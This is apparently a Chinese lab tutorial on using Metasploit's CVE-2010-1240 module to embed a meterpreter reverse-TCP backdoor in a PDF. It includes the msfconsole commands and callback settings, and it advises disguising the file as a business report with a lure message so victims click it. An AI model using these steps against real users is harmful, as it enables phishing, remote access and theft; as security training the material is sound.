

# 创建包含 Windows 后门的 PDF 文件

## 一、实验简介

### 1.1 实验介绍

本实验主要介绍如何利用 Adobe PDF 的内嵌模块漏洞来注入 Windows 后门。本实验流程通过将包含后门的 PDF 文件传输给 Windows 主机，由主机所有者使用 Adobe Reader 打开 PDF 文件时感染目标 Windows。

实验楼提供的实验环境中缺少 Windows 虚拟机，所以无法验证攻击的有效性，实验过程仅仅演示后门程序的嵌入。

此外，本实验中无需启动靶机，只需要启动 Kali Linux，创建成功的 PDF 文件将放到 Kali 主机的 `/root/` 目录下。

**注意：实验用的云主机因为配置成本较高，会限制次数，每个实验不超过6次**

### 1.2 实验知识点

本实验使用的环境为 Kali Linux 操作系统，一些基本的 Linux 操作命令是必须要熟悉。本实验中，我们将会涉及到的知识点有：

- Linux 基本操作命令
- MSF 终端下的操作流程
- Adobe PDF 嵌入 EXE 漏洞 CVE-2010-1240 介绍
- 如何利用漏洞嵌入后门程序

### 1.3 实验环境

实验楼采用的实验环境包含两台虚拟机，分别是攻击机和靶机：

+ 攻击机：Kali Linux 2.0 虚拟机，主机名是 kali，IP 地址为 192.168.122.101，默认用户名密码为 root/toor
+ 靶机：Metasploitable2 虚拟机，主机名是 target，IP 地址为 192.168.122.102，默认用户密码为 msfadmin/msfadmin

本实验在实验楼的环境下进行，只需要使用 Kali 主机即可。在实验楼的环境中，采用的实验环境包含两台虚拟机，分别是攻击机和靶机，攻击机和靶机的账户和密码参数分别如下：

| 主机   | 主机名            | 用户名     | 密码       |
| ------ | ----------------- | ---------- | ---------- |
| 攻击机 | `Kali Linux 2.0`  | `root`     | `toor`     |
| 靶机   | `Metasploitable2` | `msfadmin` | `msfadmin` |


## 二、环境启动

### 2.1 实验环境启动

在实验桌面中，双机 Xfce 终端，打开终端，后续所有的操作命令都在这个终端中输入。

首先使用 `virsh list` 命令查看当前环境中虚拟机的列表和状态，注意需要使用 sudo，另外需要加上参数 `--all` 才会显示所有关机状态的虚拟机：


然后我们使用 `virsh start` 命令启动虚拟机，再次查看状态虚拟机已经进入 running 状态：




注意由于虚拟机启动需要时间，大概要等四分钟左右我们就可以使用 SSH 访问两台虚拟机了。

首先使用 SSH 连接到 Kali，我们大部分的攻击操作都需要在 Kali 虚拟机中进行，注意用户名root，密码 toor 是不显示的，使用命令 `ssh root@kali` 即可，因为当前实验环境中已经把 IP 地址和主机名的对应写入到了 `/etc/hosts` 文件中，避免输入不好记的 IP 地址：


Kali 虚拟机启动后，我们可以开始渗透测试实验了。

## 三、漏洞介绍

### 3.1 漏洞索引信息

+ [CVE-2010-1240](http://cvedetails.com/cve/cve-2010-1240)
+ [OSVDB-63667](https://www.rapid7.com/db/modules/exploit/windows/fileformat/adobe_pdf_embedded_exe#)

### 3.2 漏洞描述

在 Windows 和 Mac 系统上的 Adobe Reader 和 Acrobat 9.3.3 之前的 9.x 版本，8.2.3 之前的 8.x 版本中，不会限制 `Launch File` 警告信息框中嵌入的文本域中的内容。因此，攻击者可以很轻易的利用该漏洞欺骗用户去执行 PDF 文件中嵌入的任意可执行程序，可以算是社会工程学的攻击方式。

### 3.3 漏洞攻击模块

这里列出的攻击模块是向 PDF 文件中嵌入 Metasploit payload 的方式：

1. `exploit/windows/fileformat/adobe_pdf_embedded_exe`：向 PDF 文件中直接注入 payload
2. `exploit/windows/fileformat/adobe_pdf_embedded_exe_nojs`：非标准方式注入 payload，不包含 JavaScript 的 payload

本实验中，我们直接使用第一个攻击模块。第二个模块很少用到，感兴趣的可以看下源码分析下有什么区别：

1. [adobe_pdf_embedded_exe 源码](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/fileformat/adobe_pdf_embedded_exe.rb)
2. [adobe_pdf_embedded_exe_nojs 源码](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/fileformat/adobe_pdf_embedded_exe_nojs.rb)

## 四、利用漏洞

### 4.1 启动 msfconsole

在 Kali 中执行下面的命令，进入 msfconsole：

```
# 打开终端 MSF

sudo msfconsole
```

### 4.2 使用的模块

在 msfconsole 中执行后续的命令，攻击的逻辑与我们先前的实验完全一致：

1. `use` 命令使用攻击模块
2. `set` 命令配置参数
3. `show options` 查看所有参数
4. `exploit` 执行攻击

本步骤中，我们使用 `use` 命令选择 3.3 中提到的攻击脚本：

```
msf > use exploit/windows/fileformat/adobe_pdf_embedded_exe
```

**注意：msfconsole 的提示符中增加了 `adobe_pdf_embedded_exe` 信息。**


### 4.3 配置模块

`show options` 查看攻击模块的配置信息：


目标软件是 Adobe Reader 的 8.x 及 9.x 版本，操作系统是 Windows XP SP3 的英语及西班牙语版本 和 Vista 及 Window 7 的 英语版本。请注意这些信息并不完整，并不仅仅局限在这些操作系统中。

配置攻击模块必要的参数，此处可以配置的有下面几方面信息：

1. EXENAME 嵌入到 PDF 中去的可执行文件的路径，可以不设置，默认攻击模块会提供一组简单的 payload
2. FILENAME 输出的 PDF 文件的名称，默认为 evil.pdf
3. INFILENAME 输入的 PDF 文件的全路径，默认使用 MSF 自带的 PDF
4. LAUNCH_MESSAGE 用来欺骗用户点击可执行程序的提示信息，可以发挥你的想象力写任何能够吸引用户点击的提醒

上面的几个参数默认都可以不设置，大部分情况下，我们需要设置 INFILENAME，指定读取的文件路径。相当于通过这个攻击模块向该文件注入一个后门，然后输出成另一个文件。比如我们想感染一个放在桌面上的将要发给被攻击者的 `业务数据报表.pdf` 文件，可以设置 `set infilename /root/Desktop/业务数据报表.pdf`。欺骗信息可以写上 `文件中包含加密信息，查看请点击打开`。输出的文件再改名后就可以发给被攻击者了。

### 4.4 执行

最后，`show options` 查看下配置信息，然后开始执行，使用的是 `exploit` 命令：


### 4.5 查看结果

输出包含恶意代码的 PDF 文件在 `/root/.msf4/local/evil.pdf`，使用 `exit` 退出 msfconsole 后，可以查看该文件：


从上图中可以看到文件的大小增大了 `45K`，这部分增多的内容就是我们嵌入的后门程序。文件打开的效果会弹出一个提示信息引导用户去点击，点击后就会启动嵌入的程序。

### 4.6 设置自己的 payload

为了让被感染的 PDF 具有更大的价值，我们准备给这个 PDF 设置一个自定义的 payload。

重新进入到 msfconsole：

```
msfconsole
```

在 msfconsole 下依次按照上述步骤执行，选择攻击模块：

```
msf > use exploit/windows/fileformat/adobe_pdf_embedded_exe
```

此处我们使用的 payload 是 `windows/meterpreter/reverse_tcp`，如果想选择其他的 payload，可以使用 `show payloads` 命令查看并选择。

`windows/meterpreter/reverse_tcp` 是 meterpreter 后门程序，会从被攻击的主机建立到攻击者主机的 TCP 连接，攻击者能够直接进入被攻击的主机。

使用 `windows/meterpreter/reverse_tcp` 作为嵌入的 payload：

```
msf > set payload windows/meterpreter/reverse_tcp
```

对 payload 进行配置，至少需要指定 Kali 的 IP 地址和端口用来接收后门建立的连接，这里需要注意目标主机必须和我们 Kali 主机互相之间可以连接：

```
msf > set lhost 192.168.122.101
msf > set lport 443
```

使用 443 端口的好处是不容易被防火墙拦住。

后续的步骤与前面完全相同，根据需求设定输入的 PDF 文件和输出的 PDF 文件路径，然后 `exploit` 就可以得到结果了。


### 4.7 再次查看输出结果


是不是比默认的 payload 还要小些？

## 五、总结

### 5.1 总结

本实验中在 Kali Linux 下，利用 Adobe Reader 对嵌入内容不做判断的漏洞，向 PDF 文件中嵌入后门程序，并引导用户去点击运行，从而获得目标主机的访问权限，涉及到的知识点有：

- Linux 基本操作命令
- MSF 终端下的操作流程
- Adobe PDF 嵌入 EXE 漏洞 CVE-2010-1240 介绍
- 如何利用漏洞嵌入后门程序

## 六、课后作业

### 6.1 课后作业

完成以下作业，巩固实验知识：

- 搜索看是否还有其他的 PDF 漏洞攻击模块可以尝试使用，阅读源码理解原理。
- 尝试使用不同的 payload 注入 PDF，对比下不同 payload 的大小有什么区别？

对于不懂的问题，都可随时在[实验楼问答](https://www.shiyanlou.com/questions)中提出，与老师和同学一起交流。